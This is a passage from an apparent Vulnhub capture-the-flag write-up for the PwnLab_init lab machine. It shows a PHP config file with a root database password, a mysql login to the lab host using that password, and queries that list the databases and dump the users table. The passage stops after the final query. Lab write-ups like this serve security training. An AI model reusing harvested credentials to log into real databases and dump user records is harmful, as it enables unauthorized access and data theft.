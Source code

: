 ![PwnLab_init](https://raw.githubusercontent.com/GooseGusevich/Vulnhub/refs/heads/main/PwnLab_init/screenshots/20250515020749.png)

```php
<?php
$server   = "localhost";
$username = "root";
$password = "H4u%QJ_H99";
$database = "Users";
?>                           
```

> [!Creds]
> root:H4u%QJ_H99

# mysql
```bash
mysql -h 192.168.3.185 -u "root" -p --ssl=0
```
___
```mysql
show databases;
```

```resoults
+--------------------+
| Database           |
+--------------------+
| information_schema |
| Users              |
+--------------------+
```
___
```mysql
show tables;
```

```resoults
+-----------------+
| Tables_in_Users |
+-----------------+
| users           |
+-----------------+
```
___
```mysql
select * from users;
```

